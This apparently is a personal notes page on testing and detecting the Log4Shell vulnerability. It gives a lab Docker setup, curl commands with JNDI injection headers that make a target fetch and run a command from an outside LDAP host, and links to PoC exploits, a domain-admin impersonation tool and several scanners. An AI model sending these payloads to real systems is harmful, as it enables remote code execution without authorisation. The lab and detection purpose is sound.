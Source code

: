 https://github.com/christophetd/log4shell-vulnerable-app
docker build . -t vulnerable-app
docker run -p 8081:8080 --name vulnerable-app vulnerable-app

curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
curl 127.0.0.1:8081 -H 'X-Api-Version: ${jndi:ldap://78769f89.dns.1433.eu.org:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'


jdeps /app/spring-boot-application.jar
jdeps  -summary -recursive /app/spring-boot-application.jar

$ jdeps --class-path 'libs/*' -recursive sh-2.6.3.jar

jar tvf yourjar.jar | perl -nle'BEGIN{$depth=(shift)-1}print join(".", (split(/\//, (split)[-1]))[0..$depth])' 3

https://github.com/huntresslabs/log4shell-tester
https://github.com/Cybereason/Logout4Shell

### LDAP

自用的LDAP测试工具，一键启动
https://github.com/EmYiQing/LDAPKit

https://github.com/WazeHell/sam-the-admin
Exploiting CVE-2021-42278 and CVE-2021-42287 to impersonate DA from standard domain user

### 其它POC

https://github.com/kozmer/log4j-shell-poc


### DNSLOG

[](./sec.dnslog.md)

## 发现

https://github.com/whwlsfb/Log4j2Scan
Log4j2 RCE Passive Scanner plugin for BurpSuite

https://github.com/tangxiaofeng7/BurpLog4j2Scan

https://github.com/Neo23x0/log4shell-detector
从/var/log里看是否受到了攻击 

https://github.com/hillu/local-log4j-vuln-scanner

https://stackoverflow.com/questions/70361367/how-to-find-vulnerable-log4j-programs-on-a-windows-10-pc-and-how-to-provide-firs/70361504

I provided the first-aid PowerShell script in the other answer, however, meanwhile there are several advanced tools that allow detection and patching of log4j-based applications, in context of CVE-2021-44228, for the case that you cannot upgrade the application and its bundled log4j, yet.

https://github.com/mergebase/log4j-detector
